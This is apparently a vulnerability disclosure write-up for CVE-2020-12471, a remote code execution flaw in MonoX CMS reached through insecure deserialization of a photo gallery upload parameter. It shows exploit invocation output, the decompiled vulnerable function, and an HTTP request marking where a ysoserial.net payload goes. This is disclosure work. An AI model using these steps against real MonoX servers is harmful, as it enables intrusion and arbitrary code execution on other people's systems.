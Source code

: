 ```yaml
---
layout: default
grand_parent: MonoX CMS
nav_order: 1
parent: CVE-2020-12471 - RCE via Insecure Deserialization
title: RCE via Photogallery
---
```


# Photogallery - Remote Code Execution via Insecure Deserialization

## VulDB-Like Summary

A vulnerability has been found in the MonoX CMS for .NET up to v5.1.40.5152. It has been rated as critical. Affected by this issue are the classes `MonoX.MonoSoftware.MonoX.HTML5Upload` and `MonoX.MonoSoftware.MonoX.SilverLightUploadModule`. The manipulation of the of the **ctl00$ctl00$ctl01$ctl00$cp$cp$wpm$gwpsnPhotoGallery$snPhotoGallery$photoUpload$ctlUpload$handlerResponse** parameter leads to Remote Code Execution vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able execute arbitrary code within the application context, and use them to achive remote code execution within the underlying hosting server.

The weakness was presented 04/19/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-12471. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

An exploit [script](https://github.com/belong2yourself/vulnerabilities/blob/master/docs/MonoX%20CMS/Remote%20Code%20Execution%20via%20Insecure%20Deserialization/Photogallery%20-%20Remote%20Code%20Execution%20via%20Insecure%20Deserialization/exploit.py) is provided in this repository, which may be used to easily verify and exploit the vulnerability.

The script should give the following output, proving the vulnerability.

```
$ python3 exploit.py -t http://monox.local -u admin -p Passw0rd! -c calc -y path/to/ysoserial.exe
[*] Logging in
[*] Triggering RCE
[+] Success!
```

When the script finishes, a calculator should spawn in the target server.

## Walkthrough

This vulnerability was easily identified by code inspection. The affected function is the following:

```csharp
//#Kw Decompiled function name
private void #Kw(object sender, EventArgs e)
    {
        if (this.EnableFileGallery && ApplicationSettings.TrustLevel == AspNetHostingPermissionLevel.Unrestricted)
        {
            string[] array = this.handlerResponse.Value.Split(string.Format("{0},", "(SEPARATOR)"));
            foreach (string text in array)
            {
                string s = text.Replace("(SEPARATOR)", string.Empty);
                SnFileDTO snFileDTO = null;
                try
                {
                    snFileDTO = (SnFileDTO)BinarySerializer.Deserialize(Convert.FromBase64String(s));
                }
                catch
                {
                    snFileDTO = null;
                }
                if (snFileDTO != null)
                {
                    this.UploadedFileDTOs.Add(snFileDTO);
                }
            }
            this.handlerResponse.Value = string.Empty;
            this.UploadedFileDTOs = null;
            this.fileGallery.BindData();
        }
        this.OnFilesUploaded(this.EntityId, this.EntityType);
    }

```
This function got called after an image was uploaded in the gallery. Intercepting the traffic with Burp revealed the endpoint. The litmus test was finding a base64 encoded string followed by `(SEPARATOR)`. An example request is following:

<pre>
<code>
POST /MonoX/Pages/SocialNetworking/lng/en-US/PhotoGallery.aspx HTTP/1.1
Host: monox.local
User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/71.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: {Stripped}
Content-Length: 5240

ctl00%24ctl00%24ctl01%24ctl00%24cp%24cp%24wpm%24gwpsnPhotoGallery%24snPhotoGall
ery%24photoUpload%24ctlUpload%24handlerResponse=<strong style="color: blue;">{base64-enc-payload}</strong><strong style="color: red;">(SEPARATOR)</strong>
&ctl00_ctl00_ctl01_ctl00_cp_cp_wpm_gwpsnPhotoGallery_snPhotoGallery_photoUpload
_ctlUpload_fileGallery_wndManager_ClientState=&ctl00_ctl00_ctl01_ctl00_editorSo
urceWindowManager_ClientState=&__VIEWSTATE_WAOKEY=&__VIEWSTATE=&__SCROLLPOSITIO
NX=0&__SCROLLPOSITIONY=0&__ASYNCPOST=true&ctl00%24ctl00%24ctl01%24ctl00%24cp%24
cp%24wpm%24gwpsnPhotoGallery%24snPhotoGallery%24photoUpload%24ctlUpload%24btnPo
stback=
</code>
</pre>

With these information, it was fairly easy to trigger an RCE via deserialization crafting a payload with **ysoserial.net**.

## Remediation

Currently, no fixes are available for this issue.

## References

*   [CWE-1236](https://cwe.mitre.org/data/definitions/1236.html)
*   [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
*   [OWASP Top 10 - A8-Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)